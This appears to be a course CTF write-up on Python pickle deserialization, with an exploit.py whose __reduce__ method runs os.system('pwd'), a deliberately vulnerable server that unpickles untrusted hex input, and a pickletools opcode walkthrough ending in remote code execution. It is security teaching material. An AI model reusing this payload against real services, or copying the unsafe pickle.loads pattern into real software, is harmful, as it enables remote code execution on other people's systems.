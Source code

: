 ```yaml
---
title: Simple Web 0x15.5(Pickle)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Deserialization"
---
```


# Simple Web 0x15.5(Pickle)
###### tags: `NTUSTWS` `CTF` `Web`

## Background - Pickle
Python magic method: `__reduce__`
`__recude__` is used to define what needs to be done when deserializing.
[Web Hacking | 終章【EDU-CTF 2021】](https://youtu.be/73uI7BK8k3g?t=236)

## Source code
:::spoiler `exploit.py`
```python!=
import pickle
import os
import pickletools

class exploit(object):
    def __reduce__(self):
        return (os.system, ('pwd',))
    

serialized = pickle.dumps(exploit())
print(bytes.hex(serialized))
optim_s = pickletools.optimize(serialized)
print(pickletools.dis(serialized))
print(pickletools.dis(optim_s))
```
:::

--- 
:::spoiler server_app.py
```python=
import pickle

serialized = bytes.fromhex(input('Data: '))
pickle.loads(serialized)
```
:::

## Output & Analyze

### In Linux
![](https://i.imgur.com/uYkq006.png)
* `GLOBAL 'posix system'`: import `posix system`(which is a library in linux)
* `BINPUT 0`: put the top stack to position 0 at Memo structure(array)
* `BINUNICODE`: push string 'pwd' to stack top
* `TUPLE1`: let the element of top stack be a tuple type
* <font color="FF0000">`REDUCE`</font>:
    ```
    args = stack.top() # which is 'pwd' in tuple type
    func = stack.top() # which is 'posix system'
    stack.push(func(args)) 
    # then it'll execute os.system('pwd') and push the output to stack
    ```
![](https://i.imgur.com/VqhEs9r.png)

### In Windows
![](https://i.imgur.com/nnWH7Uh.png)
Much similar with the outcome on linux environment.

### Analyze

## How to RCE?
```bash!
$ python exploit.py | python server_app.py
Data: /home/sbk6401/NTUSTWS/deserialization
```
How did it do?
First, `exploit.py` will serialize the exploit function and turned it to `byte.hex` then send it `server_app.py`
Then `server_app.py` will deserialize it and during the process, it'll execute magic method `__reduce__`, suddenly, it'll execute `os.system('pwd')` at the same time → **RCE**